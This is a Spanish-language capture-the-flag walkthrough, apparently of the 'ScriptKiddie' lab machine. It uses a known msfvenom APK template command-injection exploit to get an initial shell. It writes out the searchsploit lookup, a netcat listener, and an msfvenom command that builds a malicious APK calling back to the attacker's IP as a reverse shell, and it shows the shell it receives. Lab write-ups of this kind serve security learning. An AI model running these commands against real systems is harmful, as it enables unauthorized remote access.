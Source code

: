 ### Web Enumeration

Si accedemos a `http://10.129.95.150:5000/` vemos lo siguiente

![](/assets/img/ScriptKiddie/image_1.png)

He buscados por `exploits` de `msfvenom` y he encontrado una `inyección de comandos`

```
# searchsploit msfvenom     
----------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                       |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Metasploit Framework 6.0.11 - msfvenom APK template command injection                                                                                | multiple/local/49491.py
----------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

`Inspeccionamos` el `código` para ver como se explota y vemos que hay que `generar` una `apk maliciosa`

```
# searchsploit -x multiple/local/49491.py
print(f"Do: msfvenom -x {apk_file} -p android/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -o /dev/null")
```

## Web Exploitation

Nos ponemos en `escucha` en `netcat`

```
# nc -nlvp 4444
```

`Creamos` un `payload`

```
# msfvenom -x shell.apk -p android/shell/reverse_tcp LHOST=10.10.16.23 LPORT=4444 -o /dev/null
```

`Subimos` el `payload` y pulsamos en `generate`

![](/assets/img/ScriptKiddie/image_2.png)

`Recibimos` la `shell`, una vez en la máquina víctima vamos a realizar un `tratamiento` a la `TTY`

```
# nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.16.23] from (UNKNOWN) [10.129.95.150] 49432
/bin/sh: 0: can't access tty; job control turned off
$ whoami
kid
```
